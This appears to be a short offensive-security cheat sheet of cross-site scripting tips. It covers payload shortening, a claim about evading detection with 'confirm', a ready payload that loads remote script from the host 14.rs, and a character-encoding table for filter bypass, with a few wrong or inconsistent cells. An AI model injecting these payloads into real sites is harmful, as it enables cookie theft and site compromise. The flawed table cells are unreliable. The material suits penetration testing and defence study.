 # XSS Tips

### Tips & Tricks

* `http(s)://` can be shortened to `//` or `/\\` or `\\`.
* `document.cookie` can be shortened to `cookie`. It applies to other DOM objects as well.
* alert and other pop-up functions don't need a value, so stop doing `alert('XSS')` and start doing `alert()`
* You can use `//` to close a tag instead of `>`.
* I have found that `confirm` is the least detected pop-up function so stop using `alert`.
* Quotes around attribute value aren't necessary as long as it doesn't contain spaces. You can use `<script src=//14.rs>` instead of `<script src="//14.rs">`
* The shortest HTML context XSS payload is `<script src=//14.rs>` \(19 chars\)

### Awesome Encoding

| HTML | Char | Numeric | Description | Hex | CSS \(ISO\) | JS \(Octal\) | URL |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| `&quot;` | " | `&#34;` | quotation mark | u+0022 | \0022 | \42 | %22 |
| `&num;` | \# | `&#35;` | number sign | u+0023 | \0023 | \43 | %23 |
| `&dollar;` | $ | `&#36;` | dollar sign | u+0024 | \0024 | \44 | %24 |
| `&percnt;` | % | `&#37;` | percent sign | u+0025 | \0025 | \45 | %25 |
| `&amp;` | \`& | `&#38;` | ampersand | u+0026 | \0026 | \46 | %26 |
| `&apos;` | ' | `&#39;` | apostrophe | u+0027 | \0027 | \47 | %27 |
| `&lpar;` | \( | `&#40;` | left parenthesis | u+0028 | \0028 | \50 | %28 |
| `&rpar;` | \) | `&#41;` | right parenthesis | u+0029 | \0029 | \51 | %29 |
| `&ast;` | \* | `&#42;` | asterisk | u+002A | \002a | \52 | %2A |
| `&plus;` | + | `&#43;` | plus sign | u+002B | \002b | \53 | %2B |
| `&comma;` | , | `&#44;` | comma | u+002C | \002c | \54 | %2C |
| `&minus;` | - | `&#45;` | hyphen-minus | u+002D | \002d | \55 | %2D |
| `&period;` | . | `&#46;` | full stop; period | u+002E | \002e | \56 | %2E |
| `&sol;` | / | `&#47;` | solidus; slash | u+002F | \002f | \57 | %2F |
| `&colon;` | : | `&#58;` | colon | u+003A | \003a | \72 | %3A |
| `&semi;` | ;\` | `&#59;` | semicolon | u+003B | \003b | \73 | %3B |
| `&lt;` | &lt; | `&#60;` | less-than | u+003C | \003c | \74 | %3C |
| `&equals;` | = | `&#61;` | equals | u+003D | \003d | \75 | %3D |
| `&gt;` | &gt; | `&#62;` | greater-than sign | u+003E | \003e | \76 | %3E |
| `&quest;` | ? | `&#63;` | question mark | u+003F | \003f | \77 | %3F |
| `&commat;` | @ | `&#64;` | at sign; commercial at | u+0040 | \0040 | \100 | %40 |
| `&lsqb;` | \[ | `&#91;` | left square bracket | u+005B | \005b | \133 | %5B |
| `&bsol;` | / | `&#92;` | backslash | u+005C | \005c | \134 | %5C |
| `&rsqb;` | \] | `&#93;` | right square bracket | u+005D | \005d | \135 | %5D |
| `&Hat;` | ^ | `&#94;` | circumflex accent | u+005E | \005e | \136 | %5E |
| `&lowbar;` | \_ | `&#95;` | low line | u+005F | \005f | \137 | %5F |
| `&grave;` | \` | `&#96;` | grave accent | u+0060 | \0060 | \u0060 | %60 |
| `&lcub;` | { | `&#123;` | left curly bracket | u+007b | \007b | \173 | %7b |
| `&verbar;` | \| | `&#124;` | vertical bar | u+007c | \007c | \174 | %7c |
| `&rcub;` | } | `&#125;` | right curly bracket | u+007d | \007d | \175 | %7d |

